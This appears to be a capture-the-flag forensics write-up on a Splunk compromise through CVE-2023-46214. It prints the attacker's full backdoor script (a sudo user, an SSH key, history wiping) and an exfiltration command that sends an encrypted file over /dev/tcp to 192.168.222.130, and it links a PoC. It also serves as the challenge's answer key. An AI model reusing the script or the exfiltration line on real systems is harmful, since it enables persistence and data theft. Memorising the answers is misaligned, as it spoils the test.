






# Fragility

## Speech
```
In the monitoring team at our company, each member has access to Splunk web UI using an admin Splunk account. Among them, John has full control over the machine that hosts the entire Splunk system. One day, he panicked and reported to us that an important file on his computer had disappeared. Moreover, he also discovered a new account on the login screen. Suspecting this to be the result of an attack, we proceeded to collect some evidence from his computer and also obtained network capture. Can you help us investigate it?
```

## Analysis
### Pcap
1. Statistic :

2. We have some HTTP then SSH, I think the attacker exploit something via HTTP then connect to SSH
3. Begin by following the HTTP stream:
    - Not a lot of stream, two with HTTP, the first one (stream 0) is the most interesting
    - The first request is loading the login page, nothing interesting
    - Then the attacker connect as JohnyC
    
    - After some rederict we see that:
    
    - We see the attacker sending (via POST) an xsl file
    - In the answer we see a shell script (after some cleaning) :
    ```bash
    #!/bin/bash
    adduser --shell /bin/bash --gecos nginx --quiet --disabled-password --home /var/www/ nginx
    access=$(echo MzlhNmJiZTY0NTYzLTY3MDktOTNhNC1hOWYzLTJjZTc4Mjhm | base64 -d | rev)
    echo "nginx:$access" | chpasswd
    usermod -aG sudo nginx
    mkdir /var/www/.ssh
    echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDKoougbBG5oQuAQWW2JcHY/ZN49jmeegLqgVlimxv42SfFXcuRgUoyostBB6HnHB5lKxjrBmG/183q1AWn6HBmHpbzjZZqKwSfKgap34COp9b+E9oIgsu12lA1I7TpOw1S6AE71d4iPj5pFFxpUbSG7zJaQ2CAh1qK/0RXioZYbEGYDKVQc7ivd1TBvt0puoogWxllsCUTlJxyQXg2OcDA/8enLh+8UFKIvZy4Ylr4zNY4DyHmwVDL06hcjTfCP4T/JWHf8ShEld15gjuF1hZXOuQY4qwit/oYRN789mq2Ke+Azp0wEo/wTNHeY9OSQOn04zGQH/bLfnjJuq1KQYUUHRCE1CXjUt4cxazQHnNeVWlGOn5Dklb/CwkIcarX4cYQM36rqMusTPPvaGmIbcWiXw9J3ax/QB2DR3dF31znW4g5vHjYYrFeKmcZU1+DCUx075nJEVjy+QDTMQvRXW9Jev6OApHVLZc6Lx8nNm8c6X6s4qBSu8EcLLWYFWIwxqE= support@nginx.org" > /var/www/.ssh/authorized_keys
    chown -R nginx:nginx /var/www/
    cat /dev/null > /root/.bash_history
    ```
4. After that it's ssh traffic, no more to get in the pcap

### Linux
1. Let's find artifact for the script in `var/log/auth.log`
    - I searched for nginx (the name of the added user):
    
    - We can see the new user at line 70 timestamp `april 14 08:00:13`
    - The attacker connect via ssh at : `april 14 08:00:21`
    - Disconnect at : `april 14 08:03:08`
    - We can see this in the wtmp `var/log/wtmp` file, in order to see when the user connect:
    ```bash
    last -f wtmp 
    nginx    pts/2        192.168.222.130  Sun Apr 14 11:00 - 11:03  (00:02)
    johnnyca :0           :0               Sun Apr 14 02:21    gone - no logout
    reboot   system boot  5.15.0-102-gener Sun Apr 14 02:18   still running

    wtmp begins Sun Apr 14 02:18:37 2024

    ```
2. In the `auth.log` we see a jump of 7 hours, also we have a difference between wtmp and the auth.log, the timezone have been modified.
    - In `var/log/syslog` we find: `syslog:Apr 13 23:24:56 ubuntu dbus-daemon[638]: [system] Activating via systemd: service name='org.freedesktop.timedate1' unit='dbus-org.freedesktop.timedate1.service' requested by ':1.113' (uid=0 pid=5827 comm="timedatectl set-timezone Asia/Ho_Chi_Minh " label="unconfined")`
    - The new timzone is : Asia/Ho_Chi_Minh which is UTC+7
    - He goes from 11pm to 1pm, from utc-07 to utc+07
    
3. Still in `auth.log` we can take a look at what the attacker did during the ssh session:
    - He moved the file Important.pdf to /var/www `94 - Apr 14 08:02:21 ubuntu sudo: nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/mv /home/johnnycage/Documents/Important.pdf .`
    - Then he used openssl to encrypt this file in data.zip : `97 - Apr 14 08:02:54 ubuntu sudo: nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/openssl enc -aes-256-cbc -iv 4fa17640b7dfe8799f072c65b15f581d -K 3cabc6db78a034f69f16aa8986cf2e2cea05713b1e95ff9b2d80f6a71ae76b7d -in data.zip`
    - Finally he delete the files `100 - Apr 14 08:03:01 ubuntu sudo: nginx : TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/usr/bin/rm -rf data.zip Important.pdf`
4. Recovering the file
    - We know, from the initial shell script, the home of this user is /var/www
    - in /var/www we can see the bash_history file, and in this file we have:
    ```bash
    sudo mv /home/johnnycage/Documents/Important.pdf .
    ls
    zip data.zip *
    ls
    sudo openssl enc -aes-256-cbc -iv $(cut -c 1-32 <<< $(uname -r | md5sum)) -K $(cut -c 1-64 <<< $(date +%s | sha256sum)) -in data.zip | base64 | dd conv=ebcdic > /dev/tcp/192.168.222.130/8080    
    ```
    - For the openssl we get the value from the auth.log file, first we need to convert ebcdic to ascii then decode base64 then decrypt via openssl
    - open the pcap file with fireshark and follow the tcp stream sending data to 192.168.222.130 port 8080 (stream 5), select to follow the stream as EBCDIC in order to get the base64
    
    - I put the resulting base64 in cyberchef and add the aes decrypt step :
    
    

## Questions
1. What CVE did the attacker use to exploit the vulnerability?
    > CVE-2023-46214
    - Cf. Analysis > Pcap > 3
    - After finding the exploitation POST request we can make a little research on the web
    - By researching : `/en-US/splunkd/__upload/indexing/preview?output_mode=json&props.NO_BINARY_CHECK=1&input.path=search.xsl`
    - we find : [A python PoC](https://github.com/nathan31337/Splunk-RCE-poc/blob/main/CVE-2023-46214.py) or [A blog analysing the vuln](https://blog.hrncirik.net/cve-2023-46214-analysis)
2. What MITRE technique does the attacker use to maintain persistence?
    > T1136
    - Cf. Analysis > Pcap > 3
    - attacjer created an account via the shell script
3. John has adjusted the timezone but hasn't rebooted the computer yet, which has led to some things either being updated or not updated with the new timezone. Identifying the timezone can assist you further in your investigation. What was the default timezone and the timezone after John's adjustment on this machine?
    > utc-07/utc+07
    - Cf. Analysis > Linux > 2
4. When did the attacker SSH in? (UTC)
    > 04-14 15:00:21
    - Brute force, doesn't match with what i found, in wtmp 11 if 11am then must be 4am in utc if 11pm must be 16...
5. How much time has passed from when the user was first created to when the attacker stopped using SSH?
    > 00:02:55
    - Cf. Analysis > Linux > 1
6. What is the password for the account that the attacker used to backdoor?
    > f8287ec2-3f9a-4a39-9076-36546ebb6a93
    - Cf. Analysis > Pcap > 3
    - In the script we can see the line `echo "nginx:$access" | chpasswd`
    - The command chpasswd take a pair of user password and add the user:password
    - We can see `$access` is equal to `echo MzlhNmJiZTY0NTYzLTY3MDktOTNhNC1hOWYzLTJjZTc4Mjhm | base64 -d | rev` doing this command give us the password
7. There is a secret in the exfiltrated file, what is its content?
    > Th3_uNs33n_P4$$w0rd_is_th3_m05t_s3cur3
    - Cf. Analysis > Linux > 4
8. What are the username and password that the attacker uses to access Splunk?
    > johnnyC:h3Re15j0hnNy
    - Cf. Analysis > Pcap > 3